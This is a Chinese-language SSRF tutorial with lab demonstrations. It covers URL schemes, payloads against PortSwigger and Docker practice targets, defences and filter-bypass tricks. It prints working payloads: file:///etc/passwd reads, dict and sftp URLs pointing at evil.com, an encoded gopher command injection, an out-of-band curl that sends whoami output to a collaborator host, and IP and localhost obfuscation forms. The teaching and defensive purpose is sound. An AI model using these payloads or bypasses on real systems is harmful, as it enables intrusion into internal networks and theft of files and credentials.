

# SSRF

## 1、基础知识

SSRF：**<u>Server-Side Request Forgery</u>** 服务器端请求伪造

某些在线应用，需要通过URL方式获取数据，所以他们的请求里，包含访问第三方服务URL的能力。但这个【第三方服务】，就大有文章可做了。比如原本应该指向的【第三方】，是张三的HTTP服务；如果经过人为设计调整，是不是可以访问李四的HTTP服务呢？甚至，更进一步说，URL的协议可不止是HTTP/HTTPS协议，是不是可以访问非HTTP/HTTPS协议呢？

SSRF本质上可以看成一个踏板，原本踏板设计用于通往A地点的，但在刻意操控下，可以通向危险的B地址。

```mermaid
graph LR
    user(普通用户)-- /buyticket?api=http://api.keyunzhan?id=20220608123 --->WebServer(某代理电商)<-. http://api.keyunzhan?id=20220608123 .->API(上海客运站接口)

```
```mermaid
graph LR
    user(黑客)-- /buyticket?api=http://10.10.1.3:7001 --->WebServer(某代理电商)<-. http://10.10.1.3:7001 .-> 该电商的内网

```

### 1.1 SSRF能做什么

复习一下URL的结构：
```
          userinfo       host      port
          ┌──┴───┐ ┌──────┴──────┐ ┌┴┐
  https://john.doe@www.example.com:123/forum/questions/?tag=networking&order=newest#top
  └─┬─┘   └───────────┬──────────────┘└───────┬───────┘ └───────────┬─────────────┘ └┬┘
  scheme          authority                  path                 query           fragment


  telnet://192.0.2.16:80/
  └─┬──┘   └─────┬─────┘│
  scheme     authority  path

```

重点是scheme部分：https://www.iana.org/assignments/uri-schemes/uri-schemes.xhtml

### 1.2 一些敏感的协议：
全部官方schema列表：https://en.wikipedia.org/wiki/List_of_URI_schemes

以curl工具为例，它支持的协议包括：

```
DICT, FILE, FTP, FTPS, GOPHER, HTTP, HTTPS, IMAP, IMAPS, LDAP,  LDAPS, MQTT,  POP3,  POP3S, RTMP, RTMPS, RTSP, SCP, SFTP, SMB, SMBS, SMTP, SMTPS, TELNET and TFTP
```


#### file://

```
file:///etc/passwd
```

#### dict://

用于使用 dict 协议的资源读取，常见于redis环境的利用。

```
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

#### SFTP://

```
ssrf.php?url=sftp://evil.com:11111/
```

#### TFTP://

使用UDP方式传输的ftp协议

```
ssrf.php?url=tftp://evil.com:12346/UploadPath
```

#### LDAP://

Lightweight Directory Access Protocol，轻量目录访问协议，主要用于分布式目录服务的访问，一般用于大型应用的用户管理系统。

```
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

#### Gopher://

一种古老但万能的协议！非常有用！ 可以通过该协议，访问几乎任何的TCP服务，当然前提是你知道这种服务的具体数据格式。可以使用 [Gopherus](https://github.com/tarunkant/Gopherus) 这个工具，创建通过 Gopher 协议访问其他服务的payload。 [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser) 则可以创建通过 Gopher 协议发送的 Java RMI 服务payload。 更多的协议可以看抓包数据，自己构造：
https://infosecwriteups.com/how-gopher-works-in-escalating-ssrfs-ce6e5459b630
如何运行这一工具：

> sudo docker pull rickshang/gopherus:latest  
> sudo /usr/bin/alias gopherus='docker run -it --rm --name gopherus rickshang/gopherus:latest'

**Gopher和Mysql**
> git clone https://github.com/FoolMitAh/mysql_gopher_attack
> python exploit.py -u root -p "" -d "db_name" -P "query_statement" -v -c

**Gopher 发送的HTTP数据**

```bash
#For new lines you can use %0A, %0D%0A
gopher://<server>:8080/_GET / HTTP/1.0%0A%0A
gopher://<server>:8080/_POST%20/x%20HTTP/1.0%0ACookie: eatme%0A%0AI+am+a+post+body
```

.....

### 1.3 SSRF能做什么？

所以，SSRF 到底能做什么呢？ SSRF 相当一台被信任度很高的机器，代替我们自己的机器，可以去执行各种操作。包括但不限于：访问当前机器的本机服务和文件；用于对内网的嗅探和入侵；作为第三方去假冒身份，等等。 

- 云服务商提供的一些元数据API (都需要从内网地址访问)
- 访问本地文件
- 进入从外网无法访问的内网
- 读取位于内网的数据库，很大概率这台机器的IP是在白名单里

```
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118

stockApi=http://localhost/admin
```

```
POST /webshop/user/notification/create HTTP/1.1
Host: example.com
Content-Length: 51

endpoint_type=slack&endpoint_url=file:///etc/passwd
```


## 2、攻击演示

要怎样挖掘SSRF漏洞呢？

一般通过排查代理（如BurpSuite）获得的流量，找出以下可能的“点”：

- 查询字符串或者请求体里，有没有URL形式的参数；
- 发给WebServer的其他数据内容，如XML和JSON，有没有包括URL形式的数据；
- 请求头里，除了`Host:` 头外，有没有哪个特别的请求头也出现了URL。

找到可能的利用点后，就可以试试看各种内网IP地址了；找出可能的内网地址后，就可以继续找出内部网络上开放的各种端口服务了。

如果在云环境，可以尝试访问云服务上的元数据API：https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#6440-1 （Google例子）https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#ssrf-in-aws-ecs-container-service-credentials （AWS ECS 例子）

也可以通过包含有XSS payload的文件，触发跨站：

总之精髓就是，通过**各种的协议**：`file://`, `dict://`, `sftp://`,  `ldap://`, `tftp://`, `gopher://`，再组合上**各种目标地址**，去触碰原本无法抵达的资源。


### 2.1 常规案例
先看个最最基本的示范。重点是找漏洞点。

使用工具：BurpSuite+Paramalyzer插件

使用的靶机：我们用portswigger提供的这个基本的环境试试看

> [通过SSRF访问后端系统](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)

目标：... use the stock check functionality to scan the internal **192.168.0.X** range for an admin interface on port **8080**, then use it to **delete the user carlos**




此处是攻击的展示和效果。


### 2.2 多种服务的尝试

上一个案例只有一台服务器，所以只涉及本机的不同服务和外网连接的尝试，而SSRF能发挥最大功用的地方恰恰是内网的各种敏感服务。所以我们用另外一套靶机系统来演示SSRF对内网服务的利用。


使用的靶机：

>  原版源代码和文档：https://github.com/sqlsec/ssrf-vuls 
>  Docker化环境：      https://github.com/Duoduo-chino/ssrf_vul
>  攻击方式：               https://www.sqlsec.com/2021/05/ssrf.html

入口：http://宿主机-ip:8080/

#### http/https协议：
```
www.baidu.com
https://www.baidu.com/robots.txt 
```

#### 文件协议：
```
file:///etc/passwd 
file:///etc/hosts 
```

#### GET方式的命令注入
```
http://172.72.23.22/phpinfo.php 
http://172.72.23.22/shell.php?cmd=cat%20/etc/hosts 
```

#### POST方式的命令注入
```
gopher://172.72.23.24:80/_%50%4f%53%54%20%2f%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%31%30%2e%31%30%2e%31%31%2e%31%30%0d%0a%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%3a%20%33%33%0d%0a%4f%72%69%67%69%6e%3a%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%31%2e%31%30%0d%0a%43%6f%6e%74%65%6e%74%2d%54%79%70%65%3a%20%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%0d%0a%55%73%65%72%2d%41%67%65%6e%74%3a%20%4d%6f%7a%69%6c%6c%61%2f%35%2e%30%0d%0a%43%6f%6e%6e%65%63%74%69%6f%6e%3a%20%63%6c%6f%73%65%0d%0a%0d%0a%69%70%3d%6c%6f%63%61%6c%68%6f%73%74%25%33%42%63%61%74%2b%25%32%46%65%74%63%25%32%46%68%6f%73%74%73
```
####  盲试的SSRF
在无法回显的时候，可以使用带外攻击的方式，把数据带出来：
```
http://172.72.23.22/shell.php?cmd=curl%20`whoami`.hxi82q5lsv4jm2k5fg6oq6a8tzzpne.burpcollaborator.net 
```
上面是利用了BurpSuite提供的Burp Collaborator服务（类似的服务还有很多，搜“带外攻击”可见），如：
- http://www.dnslog.cn
- http://ceye.io
- http://pingb.in/
- https://webhook.site/
- https://github.com/projectdiscovery/interactsh（自己搭建）

#### 其他
Redis、MySQL、LDAP etc. 这个国光靶机环境的后台比较多，无法一一演示，大家课后自行尝试。


## 3. 防范和绕过
很容易想到，要规避SSRF漏洞，需要对请求提交过来的数据（主要就是构造的这个“URL”），做必要的限制。这种限制就五花八门了，也是看各家自己的具体实现。

- 只开放必要的客户端IP
- 只开放必要的服务
- 禁用不需要的URL协议(如“file://”, “gopher://”, “ldap://”)
- 涉及的服务一律需要认证 (如数据库、redis等)
- 监控不正常的对外的HTTP流量

当然很显然，针对各种防范方式，显然也会有各种绕过的方式。

### localhost的各种写法
http://[::]:80/
http://spoofed.burpcollaborator.net
http://localtest.me
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network  解析为 127.0.0.2 ，也相当于是 localhost
http://[0:0:0:0:0:ffff:127.0.0.1]

### IP的各种变型
原始版：180.101.49.11
http://3026530571  （10进制整数）
http://0xB465310B （16进制整数）
http://0264.0145.0061.0013 （八进制）
http://0264.0145.49.11 （不同进制混写）
[0:0:0:0:0:ffff:B465:310B] （IPv6表示法）

### IP->域名的转化
https://nip.io/  （转化后效果 ： app-47-103-140-181.nip.io）
http://1u.ms/  （转化后效果 ： make-47.103.140.181-rr.1u.ms）

### 域名的转化
各种短域名服务：

https://www.c1n.cn/ （ 转化后效果 ： http://8e9.cn/0Swq1 ）

http://6du.in

https://suolink.cn/

### 各种混淆的字符
http://app.t${s}cxa.c${d}om.cn
http://baidu.com@real.domain.name

### 通过redirect中转
先访问一个在白名单内的页面，然后在该页面里使用重定向，重定向到内网的IP和服务。


## 4、可以练手的环境

https://github.com/Duoduo-chino/ssrf_vul （源代码：https://github.com/sqlsec/ssrf-vuls）

https://hub.docker.com/r/vulfocus/php-ssrf 

https://hub.docker.com/r/vulfocus/solr-stream.url-ssrf

https://github.com/incredibleindishell/SSRF_Vulnerable_Lab

https://portswigger.net/web-security/all-labs#server-side-request-forgery-ssrf

## 5、小结


## 工具

- [SSRFmap - https://github.com/swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap)
- [Gopherus - https://github.com/tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)
- [See-SURF - https://github.com/In3tinct/See-SURF](https://github.com/In3tinct/See-SURF)


## 参考

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery
- https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html

- https://github.com/assetnote/blind-ssrf-chains

- https://www.hahwul.com/phoenix/ssrf-open-redirect/

